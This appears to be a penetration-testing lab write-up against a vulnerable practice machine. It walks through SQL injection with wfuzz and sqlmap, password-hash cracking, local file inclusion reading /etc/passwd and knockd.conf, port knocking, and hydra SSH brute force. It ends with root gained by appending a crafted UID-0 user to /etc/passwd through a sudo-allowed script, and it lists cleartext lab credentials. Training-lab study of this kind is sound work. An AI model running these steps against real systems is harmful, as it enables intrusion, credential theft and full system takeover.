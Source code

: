 # Name
## Information Gathering
#### Ports/Services
22/tcp ssh
80/tcp http

#### Credentials
- `admin:transorbital1`

## Enumeration
### Nmap scan
```bash
PORT   STATE    SERVICE REASON              VERSION
22/tcp filtered ssh     port-unreach ttl 63
80/tcp open     http    syn-ack ttl 63      Apache httpd 2.4.38 ((Debian))
|_http-title: Example.com - Staff Details - Welcome
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
```

### 80/tcp
- Software
	- Apache 2.4.39
	- PHP

- Fuzzing input fields for forms for SQLi
```bash
wfuzz -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d "search=FUZZ" --hw 86 "http://192.168.78.209/results.php"
```
- There is definetly indications of a SQLi occuring in the `search` parameter

- Using sqlmap to exploit
- List databases
```bash
sqlmap -r search.req --dbs
available databases [3]:
[*] information_schema
[*] Staff
[*] users
```

- `users` database
```bash
sqlmap -r search.req -D users --tables
Database: users
[1 table]
+-------------+
| UserDetails |
+-------------+
```
- `UserDetails` table
```bash
sqlmap -r search.req -D users -T UserDetails
```


- `Staff` database
```bash
sqlmap -r search.req -D Staff --tables
[2 tables]
+--------------+
| StaffDetails |
| Users        |
+--------------+
```
- `StaffDetails` table
	- **This lists passwords in cleartext for user accounts**
- `Users` table
```bash
sqlmap -r search.req -D Staff -T Users --dump
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```
- Attempt dictionary attack
- Throwing the hash into `crackstation.net` get back a hit
	- `admin:transorbital1`

- Once logged in, there is a message on each page `File does not exist`
- Testing the following URL for LFI: 
	- `http://192.168.78.209/manage.php?file=../../../../../../etc/passwd` - SUCCESS
- Reading which configuration files are available in `/etc/` directory using `conf-files.txt`
```bash
wfuzz -w conf-files.txt -b "PHPSESSID=n341d542smhdvfcbhhbko8u7n6" "http://192.168.78.209/manage.php?file=FUZZ"
```
- Looking at nmap scan, SSH is filtered. This may indicate port knocking. Viewing `http://192.168.78.209/manage.php?file=../../../../../../../etc/knockd.conf`
```
[openSSH]
	sequence    = 7469,8475,9842
	seq_timeout = 25
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
[closeSSH]
	sequence    = 9842,8475,7469
	seq_timeout = 25
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
```
- Performing port knocking
```bash
nmap -p7469,8475,9842 192.168.78.209

nmap -p22 192.168.78.209
PORT   STATE SERVICE
22/tcp open  ssh
```

- Performing dictionary attack with all usernames and passwords discovered so far
```bash
hydra -L users.txt -P passwords.txt -t 4 ssh://192.168.78.209 -V -F

[22][ssh] host: 192.168.78.209   login: chandlerb   password: UrAG0D!
```
- Got a hits 
	- `chandlerb:UrAG0D!`
	- `joeyt:Passw0rd`
	- `janitor:Ilovepeepee`


## Exploitation


## Privilege Escalation
- In `janitor` home directory, there is a hidden dot file `passwords-found-on-post-it-notes.txt` which contains some passwords that were not in the database dump
- Running hydra using this new password list:
	- `fredf:B4-Tru3-001`
- `fredf` gets you `local.txt`

- Running `sudo -l` as `fredf`
```bash
sudo -l

(root) NOPASSWD: /opt/devstuff/dist/test/test
```

- `test.py`
```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

- With `test` I can append to any file. I create `/tmp/passwd` with the following contents:
```
cerberus:$6$Qbdpm70f94ZHe6fS$QWx5E2pw34OBLz/MNDJYwPUEfdEZz9rd57c0xK5xjoVXvd33ezpSmFayAgPKRGvOMLYWqciNxfPR3NhIQ9bm7/:0:0:root:/root:/bin/bash
```
- Where the hash was generated by performing the following:
```bash
mkpasswd -m sha-512 pass
$6$Qbdpm70f94ZHe6fS$QWx5E2pw34OBLz/MNDJYwPUEfdEZz9rd57c0xK5xjoVXvd33ezpSmFayAgPKRGvOMLYWqciNxfPR3NhIQ9bm7/
```
- When echoing the hash into the file make sure to escape the dollar signs 

- Using the following appends your new root user to `/etc/passwd`
```bash
sudo ./test /tmp/passwd /etc/passwd
```
- You can then use `su cerberus` with the password `pass` to gain root
Add 